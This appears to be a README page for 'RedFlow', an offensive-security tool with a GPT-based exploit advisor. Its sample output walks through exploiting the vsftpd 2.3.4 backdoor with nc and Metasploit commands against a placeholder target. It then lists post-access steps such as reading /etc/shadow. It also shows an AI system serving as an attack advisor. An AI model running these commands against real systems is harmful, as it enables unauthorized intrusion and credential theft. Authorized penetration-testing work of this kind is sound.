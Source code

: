 #### 3. Interactive Usage
```bash
# Interactive menu
python3 redflow.py --menu
# Choose to enable GPT Exploit Advisor
```

## פלט לדוגמה / Sample Output

```
[bold blue]======== RedFlow + GPT Exploit Advisor ========[/bold blue]
[bold blue]This feature suggests exploits based on detected services[/bold blue]

[bold cyan]Found services:[/bold cyan]
1. [bold]vsftpd 2.3.4[/bold] on port 21
2. [bold]Apache 2.4.49[/bold] on port 80

[bold cyan]Select service to analyze (1-2, or 'q' to quit):[/bold cyan]
> 1

[bold green]Found 3 potential exploits:[/bold green]
[1] vsftpd 2.3.4 - Backdoor Command Execution
[2] vsftpd 2.3.4 - Denial of Service
[3] vsftpd 2.3.4 - 'seccomp sandbox' Privilege Escalation

[bold cyan]Select exploit to analyze with GPT (number or 'skip'):[/bold cyan]
> 1

[bold green]GPT Analysis:[/bold green]
───────────────────────────────────────────────────
│ GPT ניתוח פגיעות                                  │
───────────────────────────────────────────────────
│ # ניתוח פגיעות                                    │
│                                                   │
│ ## מטרה                                           │
│ - **שירות**: vsftpd 2.3.4                         │
│ - **אקספלויט**: vsftpd 2.3.4 - Backdoor Command Execution │
│                                                   │
│ ## ניתוח                                          │
│ פגיעות זו מנצלת backdoor שהוכנס לקוד המקור של vsftpd 2.3.4. │
│ כאשר משתמש מנסה להתחבר עם שם משתמש שמכיל את המחרוזת ':)' │
│ מופעל backdoor שפותח shell בפורט 6200.            │
│                                                   │
│ ## הוראות ביצוע                                    │
│                                                   │
│ 1. בדוק אם ה-backdoor פעיל:                       │
│    ```                                            │
│    nc -v <TARGET_IP> 21                           │
│    ```                                            │
│                                                   │
│ 2. הרץ את האקספלויט:                              │
│    ```                                            │
│    msfconsole -q                                  │
│    use exploit/unix/ftp/vsftpd_234_backdoor       │
│    set RHOSTS <TARGET_IP>                         │
│    run                                            │
│    ```                                            │
│                                                   │
│ ## תוצאה צפויה                                     │
│ גישת root למערכת.                                  │
│                                                   │
│ ## פעולות לאחר השגת גישה                           │
│ 1. בדוק הרשאות: `id` ו-`whoami`                   │
│ 2. חפש קבצים רגישים ב-`/etc/passwd`, `/etc/shadow` │
```